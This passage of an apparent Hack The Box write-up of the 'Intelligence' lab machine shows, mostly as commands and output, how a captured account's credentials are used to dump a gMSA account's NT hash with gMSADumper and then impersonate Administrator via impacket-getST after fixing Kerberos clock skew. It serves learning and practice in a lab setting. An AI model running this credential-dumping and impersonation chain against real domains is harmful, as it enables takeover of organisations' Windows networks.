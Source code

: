 We can read the GMSA password with gMSADUmper.py https://github.com/micahvandeusen/gMSADumper:

```
┌──(ryan㉿kali)-[~/HTB/Intelligence]
└─$ python gMSADumper.py -u Ted.Graves -p Mr.Teddy -d intelligence.htb
Users or groups who can read password for svc_int$:
 > DC$
 > itsupport
svc_int$:::d365e889367ce3e3241b120db1df6e25
svc_int$:aes256-cts-hmac-sha1-96:bdc4e5d502f64ffc7b7044c5a2ca5e41fe784866fcfa548b5b16dfdb73c30d63
svc_int$:aes128-cts-hmac-sha1-96:ce17e93d890939760b64a37bac296dd2
```

Nice, we've got the NT hash.

We can now attempt to impersonate the administrator on the box using impacket-getST:

```
┌──(ryan㉿kali)-[~/HTB/Intelligence]
└─$ impacket-getST -k -impersonate Administrator -spn www/dc.intelligence.htb intelligence.htb/svc_int -hashes :d365e889367ce3e3241b120db1df6e25
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

Dang, looks like my box's time difference is too much for this to work out of the box. 

We can fix this with rdate:

```
┌──(ryan㉿kali)-[~/HTB/Intelligence]
└─$ sudo timedatectl set-ntp off

┌──(ryan㉿kali)-[~/HTB/Intelligence]
└─$ sudo rdate -n 10.10.10.248
```
(Don't forget to turn it back on when you're done!)

Now that the clocks are synced we can run:

```
┌──(ryan㉿kali)-[~/HTB/Intelligence]
└─$ impacket-getST -k -impersonate Administrator -spn www/dc.intelligence.htb intelligence.htb/svc_int -hashes :d365e889367ce3e3241b120db1df6e25
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```
